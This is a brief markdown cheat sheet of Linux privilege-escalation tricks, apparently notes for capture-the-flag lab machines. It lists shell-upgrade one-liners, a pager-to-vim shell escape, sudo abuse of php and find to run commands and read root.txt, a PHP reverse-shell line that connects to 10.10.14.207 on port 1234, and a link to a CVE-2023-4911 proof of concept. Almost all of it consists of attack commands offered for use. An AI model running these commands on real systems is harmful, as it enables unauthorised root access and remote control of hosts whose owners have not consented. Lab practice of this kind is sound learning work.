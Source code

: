 # privilege escalation methods

## improving shell

`python3 -c 'import pty;pty.spawn("/bin/bash")'`
`script /dev/null -c bash`

## more|less > vi

if something is using more/less as an elevated user make the window smaller so it activates more or less
press `v` drops us in vim
using `:#!/bin/bash` we can get a shell

## sudo -l: shows php

try `sudo /usr/bin/php -r "system('whoami');"`

`/usr/bin/php -r "system('nc');"`
`php -r '$sock=fsockopen("10.10.14.207",1234);exec("/bin/sh <&3 >&3 2>&3");'`

## sudo -l: shows find

`sudo /usr/bin/find /root/root.txt -exec cat {} \;`

## ldd --version: version 2.35

`https://github.com/NishanthAnand21/CVE-2023-4911-PoC`
